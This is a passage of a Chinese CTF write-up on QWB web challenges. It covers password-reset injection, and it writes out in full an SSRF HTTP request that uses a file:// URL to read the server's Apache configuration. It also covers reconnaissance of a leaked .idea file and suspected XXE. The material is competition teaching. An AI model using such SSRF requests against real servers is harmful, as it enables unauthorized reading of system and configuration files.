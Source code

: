 `http://wc.qwb.com:8088/forgetpassword.php`

利用密码找回功能，注入出code，找回管理员密码

进入后台后，发现有一段上传处，主要用于用户的头像上传。

文件上传后便会将图片的内容显示出来。

![](https://p0.ssl.qhimg.com/t0190dec4b486262a3d.jpg)

再往后面看htm中有一段注释。

![](https://p1.ssl.qhimg.com/t01055a23cacad864af.jpg)

其中urlink存在ssrf漏洞，没有限制协议以及后面的字符，当然大部分的特殊符号不能用，只能读取一些配置文件。

```
POST /getimg.php HTTP/1.1
Host: wc.qwb.com:8088
Cookie: PHPSESSID=cjq7naar02kajivdftljhj2h44

------WebKitFormBoundaryOXFwabnsGhrKdxyn
Content-Disposition: form-data; name="urlink"

file://wc.qwb.com:8088/etc/apache2/apache2.conf
------WebKitFormBoundaryOXFwabnsGhrKdxyn--
```

读取到apache的配置文件，可以看到内容。很郁闷，比赛的时候读取了这个文件，但是base64的内容没取完整导致没看到这部分，还是需要细心…
```
#<Directory /home/qwbweb/backdoor>
#       Port    23333
#   Options Indexes FollowSymLinks
#   AllowOverride None
#   Require all granted
#   Here is a Bin with its libc
#</Directory>
```
剩下的就是文件读取pwn程序，然后pwnpwnpwn了，太菜了，不会做。

### 教育机构
这个题目其实特别懵逼，给了一个域名，还以为是要来一场真实环境渗透题，所以信息收集方面都做了。比如扫二级域名，扫端口，扫文件(一扫就被ban)

80端口看的实在懵逼，毫无头绪。就看了一下33899端口的东西，有一个.idea的泄露，但是并没有什么用。

`http://39.107.33.75:33899/.idea/workspace.xml`

内容被注释了一段xm调用实体的变量，有点想xxe。

还有一个地方就是提交评论的地方，但是无论怎么样写入都是`alert("未知错误！！！请重试")`

![](https://p2.ssl.qhimg.com/t0186a7cd8b694eadb0.jpg)

传入数组的时候发现出现问题了。

![](https://p0.ssl.qhimg.com/t012128c603810b90b1.jpg)
